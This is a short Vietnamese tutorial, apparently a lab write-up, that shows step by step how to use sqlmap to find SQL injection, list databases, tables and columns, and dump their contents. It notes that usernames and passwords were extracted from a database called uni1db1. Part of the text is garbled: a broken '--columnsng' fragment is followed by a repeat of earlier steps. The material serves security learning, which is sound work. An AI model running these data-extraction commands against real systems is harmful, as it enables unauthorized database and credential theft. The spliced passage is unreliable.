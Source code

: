 - Đầu tiền sqlmap sẽ thử nhiều kỹ thuật tấn côn SQL Injection để kiểm tra phản hồi, xác định lỗ hổng. Dựa trên kết quả sau đó sẽ xác định được loại cơ sở dữ liệu. Sau đó, sqlmap sẽ gửi hàng loạt các truy vấn SQL để trích xuất dữ liệu

- Sử dụng `sqlmap -u [url] --dbs` để lấy database 

![image](https://github.com/user-attachments/assets/ff6d1bfb-51a6-4ea6-b393-0982fb0f24a7)

![image](https://github.com/user-attachments/assets/652ece72-73a1-4b21-bafb-b894f84ac841)

- Sử dụng `sqlmap -u [url] -D [databasename] --tables` để lấy thông tin về các bảng trong databas đó

![image](https://github.com/user-attachments/assets/800026a0-710b-415a-92e0-007f5f1804e6)

![image](https://github.com/user-attachments/assets/2de66ad8-1896-4a82-b45a-c0dc285d46d9)

- Sử dụng `sqlmap -u [url] -D [databasename] -T [tablename] --columnsng `sqlmap -u [url] --dbs` để lấy database 

![image](https://github.com/user-attachments/assets/ff6d1bfb-51a6-4ea6-b393-0982fb0f24a7)

![image](https://github.com/user-attachments/assets/652ece72-73a1-4b21-bafb-b894f84ac841)

- Sử dụng `sqlmap -u [url] -D [databasename] --tables` để lấy thông tin về các bảng trong databas đó

![image](https://github.com/user-attachments/assets/800026a0-710b-415a-92e0-007f5f1804e6)

![image](https://github.com/user-attachments/assets/2de66ad8-1896-4a82-b45a-c0dc285d46d9)

- Sử dụng `sqlmap -u [url] -D [databasename] -T [tablename] --columns để lấy các cột trong bảng

![image](https://github.com/user-attachments/assets/382797d9-ced3-4a1c-b547-69b5d8329342)

![image](https://github.com/user-attachments/assets/ab666ff7-b789-4507-bbd9-3780db9ceee0)

- Sử dụng `sqlmap -u [url] -D [databasename] -T [tablename] -C [column name] --dump` để lấy dữ liệu cột trong bảng

![image](https://github.com/user-attachments/assets/bb10f2cf-6161-40ac-a6c5-d883f6c09501)

![image](https://github.com/user-attachments/assets/c99a5e12-efa4-4a1c-8af0-85413cec38b6)

- Xem trong database `uni1db1` còn lấy được tên username và password

![image](https://github.com/user-attachments/assets/b718fdf4-2e6d-4b25-8281-f0f5c859db9d)

![image](https://github.com/user-attachments/assets/a3f8d948-81ea-41f8-8c0b-c43a86261172)
